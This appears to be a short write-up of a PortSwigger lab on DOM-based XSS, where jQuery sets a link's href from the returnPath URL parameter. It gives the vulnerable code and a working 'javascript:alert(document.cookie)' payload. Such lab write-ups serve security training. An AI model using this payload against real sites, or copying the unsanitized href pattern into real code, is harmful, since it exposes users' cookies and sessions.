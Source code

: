

---
## Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source
* Description: This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the `jQuery` library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`. 
* Goal: To solve this lab, make the "back" link alert document.cookie.
### Recon
According to the description and our goal, we must find where `back` is. By using the string search of each page, I found it in `feedback` sub-page.
:::spoiler Source code
```javascript!
...
<div class="is-linkback">
    <a id="backLink">Back</a>
</div>
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
...
```
:::
According to the source code, we can inject some malicious path to replace `/`
### Exp
Payload: `/feedback?returnPath=javascript:alert(document.cookie);`
After you modified the URL, then you hit enter and click `Back` button down the page. Then it should be triggered.
:::spoiler Result
![](https://i.imgur.com/Zjd2Jm7.png)

![](https://i.imgur.com/JRpKTAq.png)
:::

### Reference
[PortSwigger Labs - DOM XSS in jQuery anchor href attribute sink using location.search source](https://youtu.be/RmyZgpqMfcM)
[DOM XSS in jQuery anchor href attribute sink using ... (Video solution, Audio)](https://youtu.be/B2E9cEZQQXg)
:::spoiler [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
> If a JavaScript library such as jQuery is being used, look out for sinks that can alter DOM elements on the page. For instance, jQuery's attr() function can change the attributes of DOM elements. If data is read from a user-controlled source like the URL, then passed to the attr() function, then it may be possible to manipulate the value sent to cause XSS. For example, here we have some JavaScript that changes an anchor element's href attribute using data from the URL: 
> ```javascript
> $(function() {
>	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
> });
>```
:::

---